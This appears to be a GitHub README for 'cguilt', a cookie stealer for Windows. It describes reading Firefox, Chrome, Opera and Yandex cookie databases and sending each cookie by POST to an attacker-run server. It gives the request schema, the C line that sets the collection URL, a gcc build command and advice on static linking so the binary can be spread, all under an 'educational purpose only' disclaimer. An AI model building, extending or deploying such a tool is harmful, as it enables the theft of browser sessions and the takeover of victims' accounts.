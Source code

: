 # cguilt
Complete raw cookie stealer for MS Windows. Educational purpose only. Have runtime dependencies, such as `libcurl`. Binaries are not distributed for obvious reason. Also cookies are not decrypted for some reason, but I'm one hundred percent working on it. Maybe.

Working principe just pretty simple: first checks what browsers are currently installed on the local machine. There is only four variants for now *(Firefox, Chrome, Opera, Yandex)*, then reads their cookie file databases and sends content to your server through API requests. Really simple, huh.

If you want to build your own binary, click ![here](#build). You also you need a serverside to accept incoming POST requests with some query params in it. To check the template of imcoming params, click ![here](#query-template).

## query template
In incoming API requests query schema has three parametrs:
1. `host`. Cookie host value. Cguilt sending cookies one-by-one, so the one request is the one cookie pair. String, max 128 chars long.
2. `value`. Cookies content value. String, max 1024 chars long.
3. `b_type`. Browser type. Not exactly every browsers here, but only Chromium in general (= 1) and Gecko (= 2).

## build
Install `libcurl` and `sqlite3` libs. Before compilation change destination server adress in 40th string in `send.c`:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Compile everything.
```bash
$ gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```
Also *if you want to distribute your own binary, which I one hundred percent condemn* you need to link the `libcurl` library as static, because it's required in runtime.

## quo vadis?
As it is can be somehow comnsidered harmful, the main purpose of this thing is practice and education. There is no goal of anything else. If you got a bug or just want to help to improve this thing - you are always welcome. Send bugreports in issues. 
